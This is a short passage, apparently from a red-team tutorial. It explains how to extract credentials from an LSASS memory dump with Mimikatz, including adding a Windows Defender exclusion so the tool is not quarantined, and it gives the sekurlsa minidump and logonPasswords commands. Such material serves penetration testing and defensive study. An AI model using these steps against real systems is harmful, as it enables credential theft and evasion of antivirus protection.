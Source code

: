 After obtaining the dump file, download Mimikaz on a windows device that belongs to you.

> Make sure to create an exception folder for Windows Defender on the machine where you are using Mimikatz, otherwise Defender Mimikatz will quarantine your executable. Run Mimikatz.
{: .prompt-warning }

 Use the following commands to extract the credentials from your LSASS Dump file:

```bash
sekurlsa::minidump lsass.DMP
sekurlsa::logonPasswords
```
![Examining dump files with mimikatz.exe](/assets/img/pitcures/red-team/dumplsass19.png)
_Examining dump files with mimikatz.exe_